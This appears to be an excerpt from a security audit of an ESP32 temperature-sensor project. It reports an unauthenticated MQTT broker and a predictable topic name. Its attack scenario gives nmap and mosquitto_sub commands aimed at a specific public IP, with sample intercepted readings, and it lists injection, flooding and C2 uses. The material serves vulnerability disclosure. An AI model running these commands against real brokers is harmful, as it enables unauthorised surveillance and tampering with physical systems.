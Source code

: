 **MQTT Topic Structure (main.cpp:151-152):**

```cpp
String userNS = "digvijay123digvijay";  // Predictable namespace
String topicAll = userNS;  // Topic: "digvijay123digvijay"
```

### Impact

An attacker who can reach the MQTT broker (IP: 161.97.170.64:1883) can:

1. **Subscribe to All Sensor Data**
   - Monitor all temperature readings in real-time
   - Track building/facility operations
   - Identify patterns and schedules

2. **Inject False Sensor Readings**
   - Publish malicious data to topics
   - Cause incorrect automated decisions
   - Trigger false alarms or hide real issues

3. **Denial of Service**
   - Flood MQTT topics with messages
   - Cause message queue overflow
   - Crash backend systems

4. **Reconnaissance**
   - Enumerate connected devices
   - Identify device IDs and patterns
   - Map infrastructure topology

5. **Lateral Movement**
   - Use MQTT as C2 channel
   - Command compromised devices
   - Spread malware to subscribers

### Attack Scenario

```
┌─────────────────────────────────────────────────────────────┐
│              MQTT BROKER EXPLOITATION SCENARIO              │
└─────────────────────────────────────────────────────────────┘

Step 1: Discover MQTT Broker
──────────────────────────────────────
$ nmap -p 1883 161.97.170.64
PORT     STATE SERVICE
1883/tcp open  mqtt

Step 2: Connect Without Credentials
──────────────────────────────────────
$ mosquitto_sub -h 161.97.170.64 -p 1883 -t "#" -v

[Connected successfully - no authentication required!]

Step 3: Subscribe to All Topics
──────────────────────────────────────
Listening on topic: #

Received messages:
digvijay123digvijay {"timestamp":"2025-10-29T12:00:00Z",
                     "sensor_id":"3B0000005F2A2228/esp32-...",
                     "reading_value":72.5}

digvijay123digvijay {"timestamp":"2025-10-29T12:00:20Z",
                     "sensor_id":"DHT22_Temp/esp32-...",
                     "reading_value":23.4}
```